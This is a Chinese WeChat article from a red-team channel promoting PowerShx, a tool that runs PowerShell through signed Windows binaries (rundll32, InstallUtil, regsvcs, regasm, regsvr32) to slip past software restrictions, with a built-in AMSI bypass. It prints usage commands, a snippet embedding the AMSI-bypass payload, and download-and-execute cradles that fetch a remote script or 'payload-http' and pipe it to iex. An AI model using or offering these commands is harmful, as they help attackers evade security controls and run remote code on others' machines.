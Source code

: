#  神兵利器 - PowerShx 不受软件限制运行Powershell

iomoath  [ Khan安全攻防实验室 ](javascript:void\(0\);)

**Khan安全攻防实验室** ![]()

微信号 KhanCJSH

功能介绍 安全不是一个人，我们来自五湖四海。研究方向Web内网渗透，免杀技术，红蓝攻防对抗，CTF。

____

__

收录于话题

  

        使用 DLL 或独立可执行文件的非托管 PowerShell 执行。

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20211015090901.png)

  

  

        PowerShx 是对PowerShdll项目的重写和扩展。PowerShx 提供绕过 AMSI 和运行 PS Cmdlet 的功能。

  

### 特征

  * 使用 rundll32.exe、installutil.exe、regsvcs.exe 或 regasm.exe、regsvr32.exe 运行带有 DLL 的 Powershell。

  * 在没有 powershell.exe 或 powershell_ise.exe 的情况下运行 Powershell

  * AMSI 旁路功能。

  * 直接从命令行或 Powershell 文件运行 Powershell 脚本

  * 导入 Powershell 模块并执行 Powershell Cmdlets。

## 用法

####

#### 运行dll32

  

  *   *   *   *   *   *   * 

    
    
    rundll32 PowerShx.dll,main -e                           <PS script to run>rundll32 PowerShx.dll,main -f <path>                    Run the script passed as argumentrundll32 PowerShx.dll,main -f <path> -c <PS Cmdlet>     Load a script and run a PS cmdletrundll32 PowerShx.dll,main -w                           Start an interactive console in a new windowrundll32 PowerShx.dll,main -i                           Start an interactive consolerundll32 PowerShx.dll,main -s                           Attempt to bypass AMSIrundll32 PowerShx.dll,main -v                           Print Execution Output to the console

  

#### 替代

  

  *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    1.     x86 - C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U PowerShx.dll    x64 - C:\Windows\Microsoft.NET\Framework64\v4.0.3031964\InstallUtil.exe /logfile= /LogToConsole=false /U PowerShx.dll2.     x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe PowerShx.dll    x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe PowerShx.dll3.     x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U PowerShx.dll    x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U PowerShx.dll4.     regsvr32 /s  /u PowerShx.dll -->Calls DllUnregisterServer    regsvr32 /s PowerShx.dll --> Calls DllRegisterServer

  

### exe 版本

  

  *   *   *   *   * 

    
    
    PowerShx.exe -i                          Start an interactive consolePowerShx.exe -e                          <PS script to run>PowerShx.exe -f <path>                   Run the script passed as argumentPowerShx.exe -f <path> -c <PS Cmdlet>    Load a script and run a PS cmdletPowerShx.exe -s                          Attempt to bypass AMSI.

  

## 嵌入式有效载荷

  

       可以通过更新“Common”项目中的数据字典“Common.Payloads.PayloadDict”并在方法 PsSession.cs -> Handle() 中调用它来嵌入有效负载。示例：在 Handle() 方法中：

  

  *   *   *   *   * 

    
    
    private void Handle(Options options){  // Pre-execution before user script  _ps.Exe(Payloads.PayloadDict["amsi"]);}

  

## 例子

  

#### 运行 base64 编码的脚本

  

  *   *   * 

    
    
    rundll32 PowerShx.dll,main [System.Text.Encoding]::Default.GetString([System.Convert]::FromBase64String("BASE64")) ^| iex  
    PowerShx.exe -e [System.Text.Encoding]::Default.GetString([System.Convert]::FromBase64String("BASE64")) ^| iex

  

注意：Empire stagers 需要使用 [System.Text.Encoding]::Unicode 解码

  

#### 运行 base64 编码的脚本

  

  *   *   * 

    
    
    rundll32 PowerShx.dll,main . { iwr -useb https://website.com/Script.ps1 } ^| iex;  
    PowerShx.exe -e "IEX ((new-object net.webclient).downloadstring('http://192.168.100/payload-http'))"

  

项目地址：

  

aHR0cHM6Ly9naXRodWIuY29tL2lvbW9hdGgvUG93ZXJTaHg=

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![示意图](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

神兵利器 - PowerShx 不受软件限制运行Powershell

最多200字，当前共字

__

发送中

写下你的留言

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。 视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

